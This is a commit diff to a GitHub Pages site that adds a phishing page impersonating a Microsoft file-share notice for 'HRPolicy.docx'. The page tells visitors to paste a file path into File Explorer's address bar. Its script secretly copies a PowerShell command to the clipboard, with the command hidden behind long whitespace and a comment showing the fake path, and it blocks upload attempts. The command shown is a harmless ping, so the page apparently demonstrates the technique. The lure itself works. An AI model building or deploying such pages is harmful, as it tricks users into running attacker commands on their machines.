

Before and after one commit to xiaosesec/xiaosesec.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-976 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,197 @@
-<h1>Test123</h1>
+<!DOCTYPE html>
+<head>
+  <title>mr.d0x shared a file with you</title>
+  <style>
+    body {
+      background-color: #f2f2f2;
+      font-family: 'Segoe UI', sans-serif;
+      margin: 0;
+      padding: 40px 0;
+      display: flex;
+      justify-content: center;
+      align-items: flex-start;
+      min-height: 100vh;
+    }
+
+    .container {
+      background-color: #ffffff;
+      width: 560px;
+      border-radius: 6px;
+      box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
+      border: 1px solid #dcdcdc;
+      text-align: center;
+    }
+
+    .header {
+      padding: 40px 30px 10px;
+    }
+
+    .header img {
+      width: 36px;
+      margin-bottom: 25px;
+    }
+
+    .header h2 {
+      font-size: 20px;
+      color: #2f2f2f;
+      margin: 0;
+    }
+
+    .timestamp {
+      font-size: 13px;
+      color: #7a7a7a;
+      margin-top: 6px;
+    }
+
+    .instructions {
+      text-align: left;
+      padding: 25px 40px 10px;
+      font-size: 15px;
+      color: #333333;
+      line-height: 1.6;
+    }
+
+    .instructions ol {
+      margin: 0;
+      padding-left: 20px;
+    }
+
+    .code-block {
+    background-color: #f1f1f1;
+    border: 1px solid #ccc;
+    border-radius: 4px;
+    padding: 8px 12px;
+    font-family: Consolas, monospace;
+    font-size: 14px;
+    margin-top: 8px;
+    position: relative;
+    transition: background-color 0.3s;
+    cursor: pointer;
+    user-select: none;
+    }
+
+
+    .code-block:hover {
+      background-color: #e6e6e6;
+    }
+
+    .code-block::after {
+      content: "Copy";
+      position: absolute;
+      top: 50%;
+      right: 12px;
+      transform: translateY(-50%);
+      font-size: 12px;
+      color: #0078d4;
+      opacity: 0;
+      transition: opacity 0.2s;
+    }
+
+    .code-block:hover::after {
+      opacity: 1;
+    }
+
+    .code-block.clicked::after {
+      content: "Copied";
+      color: #107c10;
+    }
+
+    #fileExplorer {
+      background-color: #0078d4;
+      color: white;
+      border: none;
+      padding: 12px 30px;
+      font-size: 15px;
+      border-radius: 4px;
+      margin: 30px 0 40px;
+      cursor: pointer;
+    }
+
+    #fileExplorer:hover {
+      background-color: #005ea2;
+    }
+
+    .footer {
+      font-size: 11.5px;
+      color: #6b6b6b;
+      background-color: #f7f7f7;
+      padding: 12px 24px;
+      border-top: 1px solid #dcdcdc;
+      display: flex;
+      justify-content: space-between;
+      align-items: center;
+    }
+
+    .footer img {
+      height: 16px;
+    }
+
+    .footer a {
+      color: #6b6b6b;
+      text-decoration: none;
+    }
+
+    .footer a:hover {
+      text-decoration: underline;
+    }
+  </style>
+</head>
+<body>
+
+  <div class="container">
+    <div class="header">
+      <svg fill="#000000" width="50px" height="50px" viewBox="0 0 32 32" version="1.1" xmlns="http://www.w3.org/2000/svg">
+      <path d="M0 25.472q0 2.368 1.664 4.032t4.032 1.664h18.944q2.336 0 4-1.664t1.664-4.032v-8.192l-3.776 3.168v5.024q0 0.8-0.544 1.344t-1.344 0.576h-18.944q-0.8 0-1.344-0.576t-0.544-1.344v-18.944q0-0.768 0.544-1.344t1.344-0.544h9.472v-3.776h-9.472q-2.368 0-4.032 1.664t-1.664 4v18.944zM5.696 19.808q0 2.752 1.088 5.28 0.512-2.944 2.24-5.344t4.288-3.872 5.632-1.664v5.6l11.36-9.472-11.36-9.472v5.664q-2.688 0-5.152 1.056t-4.224 2.848-2.848 4.224-1.024 5.152zM32 22.080v0 0 0z"></path>
+      </svg>
+      <h2>mr.d0x made "HRPolicy.docx" available to you</h2>
+      <div class="timestamp">06/20/2025 10:22:45 AM</div>
+    </div>
+
+    <div class="instructions">
+      <p>To access <strong>HRPolicy.docx</strong>, follow these steps:</p>
+      <ol>
+        <li style="margin-bottom: 10px;">
+          Copy the file path below
+          <div class="code-block" id="path" onclick="this.classList.add('clicked')">
+            C:\company\internal-secure\filedrive\HRPolicy.docx
+          </div>
+        </li>
+        <li style="margin-bottom: 10px;">Open File Explorer and select the address bar (<strong>CTRL + L</strong>)</li>
+        <li style="margin-bottom: 10px;">Paste the file path and press <strong>Enter</strong></li>
+      </ol>
+    </div>
+
+    <input type="file" id="fileInput" style="display: none;">
+    <button id="fileExplorer">Open File Explorer</button>
+
+    <div class="footer">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg" alt="Microsoft">
+    </div>
+  </div>
+    <script>
+    const fileInput = document.getElementById('fileInput');
+    const fileExplorer = document.getElementById('fileExplorer');
+    const path = document.getElementById('path');
+
+    // Copy the powershell command if they click on the dummy file path
+    // In case the user tries to be smart and open file explorer manually
+    path.addEventListener('click', function() {
+        navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
+    });
+
+    // Copy powershell command & open file explorer
+    fileExplorer.addEventListener('click', function() {
+        navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
+
+      fileInput.click();
+    });
+
+  // Block any attempted file uploads
+  fileInput.addEventListener('change', () => {
+    alert("Please follow the stated instructions.");
+    fileInput.value = "";
+    setTimeout(() => fileInput.click(), 500);
+});
+  </script>
+</body>
+</html>
```
